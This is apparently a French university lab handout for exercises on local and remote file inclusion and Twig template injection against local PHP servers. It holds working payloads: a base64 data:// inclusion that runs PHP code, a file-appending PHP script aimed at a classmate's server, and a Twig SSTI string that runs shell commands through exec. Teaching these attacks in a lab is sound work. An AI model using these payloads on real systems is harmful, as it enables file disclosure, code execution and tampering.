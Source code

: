# TP - Sécurité LFI, RFI et Template Injection
- **Auteur :** DESBOUYS Maxence, MAGALHAES Thomas, THEUWS Gabriel et VALENTIN Guillaume
- **Année :** 2021 -2022
- **Date de rendu :** 2 février 2022 (1 semaine pour le faire)
- **Adresse mail du compte rendu :** thomas.magalhaes@etu.uca.fr
- **Le rendu :** un document .txt ou .pdf répondant aux questions

# Disclaimer
Tous les éléments que vous verrez dans ce TP ont été "patchés" dans les versions les plus récentes. De plus, vous êtes seul responsable de l’usage que vous pourriez faire de ces techniques sur des sites tiers, elles vous sont présentées ici à des fins éducatives.

# Le tp
### Mise en place :

 - Récupérer le dépôt
 - Vérifiez que vous avez php sur votre machine *(php est déjà présent à l'iut)*
 - Lancer la commande qui suit à la racine de ce projet afin de démarrer un serveur php
   ``` php --php-ini php.ini -S localhost:3054 ```
  - Utilisez votre navigateur préféré et allez sur l’url.
  [http://localhost:3054/](http://localhost:3054/)

### Les astuces
Astuce regarder : Null Byte Injection
   
## LFI
   
### Exercice n°1.1 LFI
Cliquez sur "Exo 1 LFI"

**Votre mission : ~~(si vous l'acceptez)~~**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cible.txt" .
Ce dernier est situé au même niveau dans l'arborescence que la page.
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°1.2 LFI
Cliquez sur "Exo 2 LFI"

**Votre mission :**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cible.txt" .
Ce dernier est situé au même niveau dans l'arborescence que la page. 
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°1.3 LFI
Cliquez sur "Exo 2 LFI"

**Votre mission :**

Trouvez le moyen d'afficher dans la page le contenu du fichier "cibleHaute.secu" .
Ce dernier est situé à un niveau plus haut dans l'arborescence. 
Notez l'url saisie dans votre compte rendu.
Dans le même temps,  trouver un moyen de récupérer tous les utilisateurs de la machine.
Notez l'url saisie dans votre compte rendu ainsi que le résultat.

---

## RFI

### Exercice n°2.1 RFI
Cliquez sur "Exo 1 RFI"

**Votre mission :**

Trouvez le moyen d'afficher le contenu d'un autre site dans votre page.
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°2.2 RFI
Cliquez sur "Exo 2 RFI"

**Votre mission :**

Trouvez le moyen d'afficher le contenu d'un autre site dans votre page.
Notez l'url saisie dans votre compte rendu.

---

### Exercice n°2.3 RFI
Cet exercice ce fait avec un autre binôme/collègue. Si vous n'en n'avez pas ou qu'il n'est pas à cet exercice, nous mettrons en place un serveur accessible par l'intranet.

#### Mise en place pour le serveur :
1. Trouvez l'adresse IPv4 de votre machine (pour l'avoir en mémoire)
2. Créer un fichier index.php qui possède un titre h1 et une inclusion de fichier sans vérification de l’entrée. Vous pouvez faire comme [l'index.php de l'exercice 1](/exo_rfi/index.php).
3. Lancer votre serveur PHP en précisant l'IPv4 de votre machine au lieu de localhost. Ansi, votre serveur est mis à la disposition de tout l'IUT.

#### Protocole à suivre pour le client :
1. Avec votre navigateur préféré, obtenir la page d'accueil du binôme/collègue avec lequel vous travaillez.
2. Puisque vous connaissez sa faille, autant l'exploiter ~~(la faille du serveur)~~ en injectant de l'HTML ou du PHP de votre choix. Si vous n'avez vraiment pas d'idée, prenez ce [index.html](https://github.com/LINCnil/Guide-RGPD-du-developpeur/blob/main/index.html).
```pour obtenir le lien brut, cliquez sur le bouton 'raw'```

---

### Exercice n°2.3 RFI suite
```diff
-Il est maitenant temps de jouer !!!
```

Mais avant des explications qui vous seront utiles dans votre périple.

L'url suivant permet d'afficher le phpinfo() sur serveur ciblé.
```
http://localhost:3054/exo_rfi/?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B
```
La première partie (```http://localhost:3054/exo_rfi/?file=```) correspond à la partie dite "normale".

La seconde partie (```data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B```) correspond à la partie saisie par l'utilisateur.

>data://text/plain;base64,

Permet d'envoyer au serveur du text en base 64 (utile pour l'attaque)

>PD9waHAgcGhwaW5mbygpOz8

Correspond ici a ```<?php phpinfo();?>```  en base 64

>%2B

Termine l'url 

Pour trouver la correspondance en base 64 de votre code php
[https://www.base64url.com/](https://www.base64url.com/)

(Il faut retirer les caractères "+","-" et "=" si il y en a à la fin)

```
input: <?php echo "bonjour"; ?>
result: PD9waHAgZWNobyAiYm9uam91ciI7ID8+
result clean: PD9waHAgZWNobyAiYm9uam91ciI7ID8
url final : http://localhost:3054/exo_rfi/?file=data://text/plain;base64,PD9waHAgZWNobyAiYm9uam91ciI7ID8%2B
```

**Votre mission :**

Vous allez devoir rajouter à l'index du serveur d'autre personne vos noms.

Le script php qui suit vous permet d'ajouter en fin de fichier du texte.
Utilisez le pour ajouter vos prénoms dans l'index du serveur ciblé. 
```php
<?php
$file = ''; 
$text = "";
file_put_contents($file, $text, FILE_APPEND | LOCK_EX);
//echo "lancement de l'attaque";
?>
```
Notez l'url saisie dans votre compte rendu ainsi que les étapes pour l'obtenir.

---

### Exercice n°3.1 SSTI

pour commencer vous devrez cloner le repot git : https://github.com/GoSecure/template-injection-workshop
puis lancer votre machine VDN et créez une passerelle sshfs jusqu'au dossier `template-injection-workshop/12_template_twig_php/`. 
Ensuite vous lancerez un docker dans le fichier `12_template_twig_php` et vous vous y connecterez via le port `8012` de local host (127.0.0.1):
```bash
$ vdn docker-tmp

vdn:...$ sshfs {login}@{ip_machine}:/home/etud/{login}/{path to template-injection-workshop/12_template_twig_php/}
vdn:.../12_template_twig_php$ docker-compose up

vdn:...$ links http://localhost:8012/
 ### ou ###
vdn:...$ links 127.0.0.1:8012/
```

**Votre mission :**

Une fois cela fait votre mission consite à récupérer le flag en utilisant une template injection.

---

### Aide
La commande suivante vous sera utile dans votre recherche du flag: ``{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("echo -E `ls /`")}}``
